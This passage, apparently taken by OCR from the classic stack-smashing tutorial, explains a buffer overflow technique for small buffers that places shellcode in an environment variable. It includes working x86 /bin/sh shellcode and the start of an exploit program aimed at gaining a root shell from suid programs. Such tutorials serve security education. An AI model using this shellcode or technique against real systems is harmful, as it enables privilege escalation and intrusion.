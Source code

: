 


TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT








TTTTTTTTTTTT
Warning: some arguments in previous message were lost
bash$
------------------------------------------------------------------------------

   Eureka! Less than a dozen tries and we found the magic numbers. If xterm
where installed suid root this would now be a root shell.


                            Small Buffer Overflows
                            ~~~~~~~~~~~~~~~~~~~~~~

   There will be times when the buffer you are trying to overflow is so
small that either the shellcode wont fit into it, and it will overwrite the
return address with instructions instead of the address of our code, or the
number of NOPs you can pad the front of the string with is so small that the
chances of guessing their address is minuscule.  To obtain a shell from these
programs we will have to go about it another way.  This particular approach
only works when you have access to the program's environment variables.

   What we will do is place our shellcode in an environment variable, and
then overflow the buffer with the address of this variable in memory.  This
method also increases your changes of the exploit working as you can make
the environment variable holding the shell code as large as you want.

   The environment variables are stored in the top of the stack when the
program is started, any modification by setenv() are then allocated
elsewhere.  The stack at the beginning then looks like this:


      <strings><argv pointers>NULL<envp pointers>NULL<argc><argv><envp>

   Our new program will take an extra variable, the size of the variable
containing the shellcode and NOPs. Our new exploit now looks like this:

exploit4.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";
